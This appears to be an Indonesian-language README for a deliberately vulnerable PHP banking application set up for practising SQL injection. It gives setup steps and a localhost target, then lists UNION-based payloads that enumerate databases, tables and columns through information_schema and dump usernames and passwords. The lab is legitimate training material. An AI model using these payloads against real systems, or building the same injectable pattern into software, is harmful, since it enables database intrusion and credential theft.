

# PHP-Perbankan-Vulnerable
 Source Code PHP untuk uji-coba / implementasi serangan SQL Injection



#### Requirement ✨ :
1. XAMPP SERVER 3.2.4 [Tested / Coba dengan Webserver anda]
2. PHP 7.0
3. Database : MYSQL 10.4.14-MariaDB [Saya menggunakan PHPMyAdmin untuk mengakses database]

#### Cara menggunakan Setup 🚀 :
1. Set username dan password sesuai pada [config.php](https://github.com/felix672018159/PHP-Perbankan-Vulnerable/blob/main/perbankan/config.php)


2. Import database sesuai dengan server database yang digunakan


#### Target Injeksi 🎯 : 
```
http://localhost/perbankan/daftarpengguna.php?rekening=92774037
```
https://github.com/felix672018159/PHP-Perbankan-Vulnerable/blob/main/perbankan/config.php
#### Kode Injeksi 🔥 :

##### 1. Mysql injection untuk mencari semua nama database
```
union select table_schema,1,2 from information_schema.tables;
```
##### 2. Mysql injection untuk mencari tabel dalam database

   ###### Format :
   ```
   union select table_name,1,2 from information_schema.tables WHERE table_type = 'base table' AND    table_schema='nama database';
   ```
   ###### Contoh :
   ```
   union select table_name,1,2 from information_schema.tables WHERE table_type = 'base table' AND    table_schema='vuln_server_perbankan_felix672018159';
   ```

##### 3. Mysql Injection untuk mencari kolom pada tabel pada database yang dipilih:

   ###### Format :
   ```
   union select column_name,1,2  FROM information_schema.columns WHERE `TABLE_SCHEMA`='<span style="color:red;">nama database</span>' AND `TABLE_NAME`='nama tabel';
   ```
   ###### Contoh :
   ```
   union select column_name,1,2  FROM information_schema.columns WHERE    `TABLE_SCHEMA`='vuln_server_perbankan_felix672018159' AND `TABLE_NAME`='pengguna';
   ```

##### 4. Mysql Injection untuk mendapatkan username dan password :
   ```
   union select password,1,username from vuln_server_perbankan_felix672018159.pengguna;
   ```

#### Cara melakukan Injeksi SQL :
   masukan url berupa gabungan dari target dan kode injeksinya

   ###### contoh :
   ```
   http://localhost/perbankan/daftarpengguna.php?rekening=92774037 union select password,1,username from vuln_server_perbankan_felix672018159.pengguna;
   ```
